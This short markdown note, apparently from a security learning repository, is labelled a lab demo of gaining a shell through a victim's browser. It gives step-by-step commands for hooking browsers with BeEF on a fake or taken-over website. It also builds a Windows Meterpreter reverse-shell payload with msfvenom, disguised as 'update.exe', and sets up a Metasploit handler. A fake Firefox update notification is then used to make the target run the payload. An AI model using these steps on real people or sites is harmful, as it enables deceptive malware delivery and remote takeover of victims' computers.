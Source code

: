 ```python
```

---

### Establishing a Shell Through The Victim Browser - LAB Demo

```bash
# Tools Used :
# 1.BeEF | 2. A Fake WebSite That had our Hooking URL.
# ==========================================================
# 1) Open The Search bar in kali and run BeEF From it ..
# Once its running you will provide with Panel URL and Hook URL, Copy The Panel and Paste in your Web Browser
# Access the FrameWork Using your Creds.
# => The Best Way to Use BeEF is to Create/Takeover a WebSite and integrate the framework with it .
# ==========================================================
# 2) Create a Basic WebPage and insert the Hook URL inside the <script></script> tag.
# => OFC You can do those steps on VPS...
# ==========================================================
# 3) Creating the payload that we will use to gain access
me@ME:/var/www/html~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(UR-IP) LPORT=9988 -f exe > update.exe
# We Going to Prompt that the Web Broswer Require an update and make your target install our exe
# ==========================================================
# # Setting our Hnadler
~$ msfconsole -q
msf6> use exploit/multi/handler
msf6 exploit(multi/handler)> set windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler)> set LHOST=<yourIP>
msf6 exploit(multi/handler)> set LPORT=9988
msf6 exploit(multi/handler)> run
# When your target access this webpage the BeEF framework will hook hes browser..
# When the Browser Hooked , Move to the online browser -> your target -> Commands -> Social Engineering
# We Can see a Lot of things in here .. We choose (Fake Notification bar Firefox)
# Change the Plugin URL to the actuall address that hosting our exe ...
# Change the text as you see it suitable ...
# When Our Target download and execute it we should have reverse shell on our handler
 	## Its Highlly Recommended to play around with BeEF Functionalities .. Its pretty easy and cool
```
